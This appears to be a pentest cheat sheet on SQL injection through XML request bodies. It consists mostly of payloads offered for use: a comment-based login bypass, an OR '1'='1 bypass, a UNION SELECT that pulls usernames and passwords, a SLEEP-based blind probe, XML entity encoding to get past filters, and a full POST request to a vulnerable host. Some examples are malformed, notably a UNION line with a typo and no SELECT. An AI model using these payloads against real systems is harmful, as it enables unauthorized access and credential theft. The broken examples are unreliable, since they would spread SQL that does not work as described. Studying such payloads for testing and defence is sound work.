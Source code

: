 # 🧨 SQL Injection via XML Payloads

## 📌 What is SQLi via XML?

Some modern applications (especially SOAP APIs, enterprise systems, and mobile backends) use **XML** to transfer data between the client and server.

If this XML input is **parsed unsafely and passed directly into SQL queries**, then an attacker can **inject SQL code** through the XML data.

---

## 🧭 Where You Might See XML

- SOAP-based web services
- REST APIs with `Content-Type: application/xml`
- Legacy mobile app backends
- Backend systems with file-based XML inputs (e.g., `.xml` uploads)
- Authentication using SAML (uses XML under the hood)
- Anywhere where XML data is parsed and used in a SQL query

--- 

## 🕵️ How to Detect SQLi via XML

### ✅ 1. Identify XML Usage

Check requests that:

- Have `Content-Type: application/xml`
- Accept raw XML body
- Return XML in response
- Have `.xml` file uploads

---

## 🧪 Common XML SQLi Payloads

### 🔹 Basic String Injection

`<login>`
	`<username> admin'-- </username>`      ` # always use <space> after comment `
	`<password> anything </password>` 
`</login>`

➡️ Can bypass password check if SQL is like:

`SELECT * FROM users WHERE username = 'admin'--' AND password = 'anything'`
or
` category=Gifts' UNION 'usernamr'||'password' FROM users`

---

### 🔹 OR-based Login Bypass

`<login>`   
	`<username> ' OR '1'='1 </username>`   
	`<password> random </password>`
`</login>`

➡️ Bypasses login forms using Boolean condition.

---

### 🔹 UNION Injection

`<product>  
	`<category> ' UNION SELECT username, password FROM users-- </category>
`</product>` 

➡️ Appends output from another table to original results.

---

### 🔹 Time-based Blind SQLi

`<order>   <id>1' OR SLEEP(5)--</id> </order>`

➡️ If the response delays by 5+ seconds, it's injectable.

---

### 🔹 Filter Bypass Using XML Encoding

Some applications **sanitize** suspicious strings like `SELECT`, `'`, `--`, etc.

You can **bypass** this using XML encoding:

| Character          | Encoded             |
| ------------------ | ------------------- |
| `'` (single quote) | `&#x27;` or `&#39;` |
| `"` (double quote) | `&#x22;`            |
| `S`                | `&#x53;`            |
| `E`                | `&#x45;`            |
| `L`                | `&#x4C;`            |
| `;`                | `&#x3B;`            |

### 🧪 Example Payload Using Encoding:

`<stockCheck>  
	`<productId> 1 </productId>   
	`<storeId> 999 &#x53;ELECT * FROM users </storeId> 
`</stockCheck>`

➡️ Server decodes `&#x53;ELECT` to `SELECT`, query becomes malicious.

---

### 🔹 POST Request Example (Full)

`POST /api/check HTTP/1.1 `
`Host: vulnerable-site.com Content-Type: application/xml ` 

`<stockCheck>`  
	`<productId> 1 </productId>`   
	`<storeId> 999' OR 1=1-- </storeId>` 
`</stockCheck>`